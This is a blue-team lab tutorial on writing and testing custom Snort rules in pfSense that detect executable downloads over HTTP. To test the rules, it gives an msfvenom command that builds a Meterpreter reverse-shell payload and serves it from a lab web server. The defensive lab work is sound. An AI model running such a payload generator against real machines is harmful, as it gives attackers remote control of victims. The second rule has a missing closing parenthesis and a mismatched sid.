# Snort in pfSense: Custom Rules

### **Summary**

While Snort comes with built-in rules for common threats, creating **custom Snort rules** allows security professionals to tailor the system to meet the specific needs of their networks.

Custom rules help detect and respond to unique attack patterns, unusual traffic behaviors, or compliance requirements that may not be covered by default rules. Writing effective Snort rules involves understanding how network protocols work, identifying malicious or suspicious behavior, and using Snort’s rule syntax to define alerts or actions based on that behavior.

### **Why Write Custom Snort Rules?**

1. **Targeted Threat Detection**
    
    Custom rules allow you to monitor traffic for specific threats that are relevant to your organization, such as attempts to exploit vulnerabilities in your applications or infrastructure.
    
2. **Reducing False Positives**
    
    By fine-tuning rules to match your network’s normal traffic patterns, you can minimize false positives and improve alert accuracy.
    
3. **Compliance and Monitoring**
    
    Custom rules can help enforce security policies or monitor activity for compliance with regulations (e.g., logging access to sensitive data).
    

### **Snort Rule Structure Overview**

A Snort rule typically consists of two main parts:

1. **Header** – Specifies the rule action, protocol, source/destination IPs, and ports.
2. **Options** – Contains conditions for triggering the rule, such as content matching, byte values, or flow direction.

### Example Rule:

```jsx
alert tcp $HOME_NET any -> $EXTERNAL_NET 80 (msg:"HTTP request detected"; sid:1000001; content:"GET"; http_method;)
```

- **Action:** `alert` – Generates an alert when the rule matches.
- **Protocol:** `tcp` – Monitors TCP traffic.
- **Source/Destination:** `$HOME_NET any -> $EXTERNAL_NET 80` – Matches traffic from the internal network to external web servers on port 80.
- **Options:** Specifies the message (`msg`) and content to search for (`content:"GET"`).

### **Common Rule Actions**

- `alert` – Generate an alert and log the event.
- `log` – Log the traffic without generating an alert.
- `pass` – Ignore traffic that matches the rule.
- `drop` – Block and log the traffic (IPS mode).

### **Best Practices for Writing Custom Rules**

1. **Use Variables:** Leverage Snort's predefined variables (e.g., `$HOME_NET`, `$EXTERNAL_NET`) to keep rules flexible and easy to maintain.
2. **Be Specific:** Avoid overly broad rules that could lead to false positives or performance issues.
3. **Test Thoroughly:** Test new rules in a non-production environment to ensure they trigger correctly without unintended consequences.
4. **Document Your Rules:** Include comments and descriptive messages (`msg`) to help others understand the purpose of each rule.

By mastering custom Snort rules, security professionals can enhance their network's defense capabilities, creating a more proactive and adaptive security posture.

# **Custom Rule # 1000002**

Malware downloaders are a common component of multi-stage attacks, often serving as the initial mechanism to fetch and install malicious payloads on a compromised system. These downloaders frequently rely on HTTP or HTTPS requests to retrieve an executable file (`.exe`) from a remote server. The presence of `.exe` files in Uniform Resource Identifiers (URIs) can be an indicator of compromise (IOC), especially when such traffic originates from unknown or suspicious sources. 

In many cases, these URIs follow predictable patterns, such as `/update.exe`, `/malware123.exe`, or other dynamically generated paths designed to obfuscate their intentions. This makes it possible for security analysts to create custom Snort rules that inspect HTTP requests and flag any traffic attempting to download an `.exe` file. By doing so, organizations can enhance their network defenses by detecting and stopping malicious downloads before the payload executes on a target system.

The Snort rule below will detect HTTP URIs that contains an .exe.

```jsx
alert tcp any any -> any 80 (msg:"HTTP URI contains .exe"; content:"|2e|exe";nocase;http_uri;sid:1000002)
```

Below is a description of each element of the rule.

### **1. Action: `alert`**

- The rule will generate an alert if the specified conditions are met.

---

### **2. Protocol: `tcp`**

- This rule applies to TCP traffic, which is the protocol used for HTTP communication.

---

### **3. Source and Destination Details**

- **Source:** `any any`
    - The rule applies to traffic coming from any IP address and any source port.
- **Destination:** `any 80`
    - The rule applies to traffic going to any IP address on port 80, which is the default port for HTTP traffic.
- **Direction:** `>`
    - Indicates the traffic flow from source to destination.

---

### **4. Rule Options (inside parentheses)**

### **Option 1: `msg:"HTTP URI contains .exe";`**

- This is the message that will be displayed or logged when the rule is triggered.
- The message indicates that the rule is detecting an `.exe` file in the HTTP URI.

### **Option 2: `content:"|2e|exe";`**

- The rule searches for the string `.exe` in the packet data.
- The hexadecimal value `|2e|` represents a dot (`.`), so the content field matches `.exe`.

### **Option 3: `nocase;`**

- This makes the content match case-insensitive, allowing detection of both `.exe` and `.EXE`.

### **Option 4: `http_uri;`**

- This tells Snort to search specifically within the HTTP URI (e.g., `/downloads/malware.exe`), rather than the entire packet payload.
- By focusing on the URI, the rule reduces the chances of false positives from other areas of the HTTP traffic.

### **Option 5: `sid:1000002;`**

- The `sid` (Snort ID) uniquely identifies this custom rule.
- SIDs starting with `1000000` are typically used for custom rules to avoid conflicts with official Snort rules.

---

### **Adding the rule to Snort in pfSense**

In the pfSense dashboard select Services and then Snort.

Under the Snort menus select Snort Interfaces.

Select the edit (pencil) button 



Select Ecorp Rules



Paste in the new rule described above and select “Save”.



### Create an .exe payload

Go to Kali Linus and run the command below.

```jsx
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<your_IP> LPORT=4444 -f exe > payload.exe
```

### **Command Breakdown:**

1. **`msfvenom`**
    - A tool to generate various types of payloads for penetration testing. It combines `msfpayload` and `msfencode`.
2. **`p windows/meterpreter/reverse_tcp`**
    - Specifies the payload type.
    - **Payload:** `windows/meterpreter/reverse_tcp`
        - This payload creates a **reverse shell** using the **Meterpreter** session.
        - The reverse shell connects from the target back to the attacker's machine (instead of the attacker initiating the connection).
3. **`LHOST=<your_IP>`**
    - Specifies the **local host** (your IP address) where the target machine will connect back. Replace `<your_IP>` with your attack machine’s IP.
4. **`LPORT=4444`**
    - Specifies the **local port** that the target machine will connect to.
    - You can change `4444` to any open port on your system.
5. **`f exe`**
    - Specifies the **output format**.
    - In this case, the payload is generated as a Windows **`.exe`** file.
6. **`> payload.exe`**
    - Redirects the output to a file named `payload.exe`.
    - This file can be transferred to the target machine for execution.

We won’t go into much more details abour the reverse shell we just created during this exercise. We are just using it to create an .exe file to test our Snort rule.

As seen below, payload.exe was created.



We will now create an HTTP Webserver so the .exe can be downloaded.

```jsx
python3 -m http.server 80
```



### Test the Snort Rule

On a Windows VM we will use a browser to download payload.exe using the following URI.

```jsx
http://10.0.3.6/payload.exe
```



We can now check to see if the rule detected the download of an .exe file.

Go back to pfSense dashboard and check the Alerts tab.

As seen below, the rule did work and the .exe was detected.



## Custom Rule 1000003

The previous rule was successful in picking up the pattern .exe in a URI; however, what if the file extension is changed. It is still an .exe file, but it would not be detected with the previous rule. We can create the rule below to detect **HTTP payloads** containing a **PE (Portable Executable)** file by looking for the **MZ** magic number (`0x4D 0x5A`) at the beginning of the file. It is useful for identifying potentially malicious files being downloaded over HTTP, such as malware executables.

```jsx
alert tcp any 80 -> any any (msg:"HTTP payload contains PE executable or DOS MZ magic number"; file_data; content:"|4D 5A|"; depth: 2; sid:100003
```

 Let's break down the rule in detail.

---

### **1. Action: `alert`**

- The rule will generate an alert if the specified conditions are met.

---

### **2. Protocol: `tcp`**

- The rule applies to **TCP** traffic, which is used in HTTP communication.

---

### **3. Source and Destination Details**

- **Source:** `any 80`
    - The rule applies to traffic coming from any IP address on **port 80** (HTTP traffic).
- **Destination:** `any any`
    - The rule applies to traffic going to any IP address and port.
- **Direction:** `>`
    - This indicates the traffic flow from the source (`any 80`) to the destination (`any any`).

---

### **4. Rule Options (inside parentheses)**

### **Option 1: `msg:"HTTP payload contains PE executable or DOS MZ magic number";`**

- This is the message displayed or logged when the rule is triggered.
- It informs that a payload containing a **PE (Portable Executable)** or the **MZ magic number** has been detected.

### **Option 2: `file_data;`**

- This modifier tells Snort to focus on the **decoded file content** within HTTP payloads, rather than the raw packet data.
- It is useful for identifying file types transmitted over HTTP.

### **Option 3: `content:"|4D 5A|";`**

- This condition looks for the **MZ magic number** (`0x4D 0x5A`), which is present at the beginning of all **Portable Executable (PE)** files.
- `MZ` stands for the initials of **Mark Zbikowski**, the Microsoft developer who created the DOS executable format.
- If this pattern is found in the payload, it likely indicates the presence of an `.exe`, `.dll`, or another PE file.

### **Option 4: `depth: 2;`**

- This limits the search to the first **2 bytes** of the payload.
- The MZ magic number is always located at the start of a PE file, so restricting the search to the first 2 bytes improves performance and reduces false positives.

### **Option 5: `sid:100003;`**

- The **Snort ID (sid)** is a unique identifier for the rule.
- Custom rules typically use SIDs starting at **1000000** to avoid conflicts with official Snort rules.

---

## Add the rule to Snort in pfSense

Use the same process as we did with the previous Custom Rule.



### Testing the Rule

Going back to our Kali Linux VM, we can change the file extension of payload.exe to payload.txt to test the rule. In Linux we can change a file name using the mv command below.

```jsx
mv payload.exe payload.txt
```



Go back to our Windows VM and point the browser to payload.txt.



Go back to the pfSense Dashboard and check the alerts. As seen below, the alert successfully detected the .exe file.



# Conclusion

We have demonstrated how you can write Custom rules for Snort and test them to ensure that they work correctly. Throughout the course we will create more Custom rules as part of an overall Blue Team effort.